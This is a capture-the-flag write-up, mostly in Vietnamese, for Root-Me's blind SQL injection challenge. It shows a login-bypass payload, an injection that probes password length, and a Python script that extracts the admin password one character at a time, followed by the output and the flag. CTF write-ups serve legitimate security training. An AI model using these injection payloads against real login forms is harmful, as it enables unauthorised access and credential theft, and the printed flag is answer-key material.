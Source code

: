 # [SQL injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-blind)

## Solutions

Không được dùng keyword `union` trong trường `username`

Attack:

- `username=admin' -- &password=a`: Đăng nhập được vào bằng admin nhưng không lấy được mật khẩu
- `username=admin' and (SELECT LENGTH(password) FROM users WHERE username='admin')=x -- &password=a`: Thay x bằng các số lần lượt từ 1 tăng dần, sẽ tìm được độ dài password admin => x = 8
- Lợi dùng hàm substr để lấy được từng ký tự trong password của admin, sử dụng script python sau:

```python
import requests

baseURL = 'http://challenge01.root-me.org/web-serveur/ch10/'
password = ''

characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$%\'()*+,-./:;<=>?@[\\]^_`{|}~'

data = {"username": "", "password": "a"}

for i in range(8):
    for c in characters:
        data["username"] = f"admin' and (SELECT SUBSTR(password,{i+1},1) FROM users WHERE username='admin')='{c}' -- "
        r = requests.post(baseURL, data=data)
        if 'admin' in r.text:
            password += c
            break
        
    print(password)
```

Kết quả:

```text
e
e2
e2a
e2az
e2azO
e2azO9
e2azO93
e2azO93i
```

Flag: `e2azO93i`
